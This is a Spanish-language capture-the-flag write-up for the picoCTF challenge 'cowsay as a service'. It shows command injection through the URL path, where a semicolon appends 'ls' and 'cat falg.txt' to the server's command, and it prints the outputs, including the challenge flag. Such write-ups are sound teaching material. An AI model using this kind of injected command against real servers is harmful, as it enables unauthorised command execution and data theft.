 ## Descripción 
Now presenting [cowsay as a service](https://caas.mars.picoctf.net/)

## Datos de Acceso al Nivel
user: carlosof / kali
password:

## Solución
- Ingresamos a la pagina web.
- Podemos cortar esta parte de la ruta ``/cowsay/{message}`` y remplazar {message} por cualquier otra cosa, así que si probamos con `;ls` nos devuelve esto:

`https://caas.mars.picoctf.net/cowsay/{};ls`
```bash
 ____
< {} >
 ----
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
Dockerfile
falg.txt
index.js
node_modules
package.json
public
yarn.lock
```

- Hacemos un `cat` a `falg.txt`:
`https://caas.mars.picoctf.net/cowsay/%7B%7D;cat falg.txt`

```bash
 ____
< {} >
 ----
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}
```
## Notas Adicionales
**`;`**: El punto y coma (`;`) es un carácter especial en muchos sistemas operativos, especialmente en **Unix/Linux**. En una terminal, el punto y coma permite ejecutar múltiples comandos en una sola línea. Por ejemplo, si tienes `ls; ls`, se ejecutarán ambos comandos (`ls` y `ls`).
## Referencias 
https://play.picoctf.org/practice/challenge/202
[Cómo funcionan los ataques de inyección de comandos en servidores (redeszone.net)](https://www.redeszone.net/tutoriales/seguridad/que-son-ataques-inyeccion-comandos/#:~:text=Ataques%20de%20inyecci%C3%B3n%20de%20comandos%3A%20qu%C3%A9%20son%20y,4%20Conclusiones%20de%20este%20tipo%20de%20amenaza%20)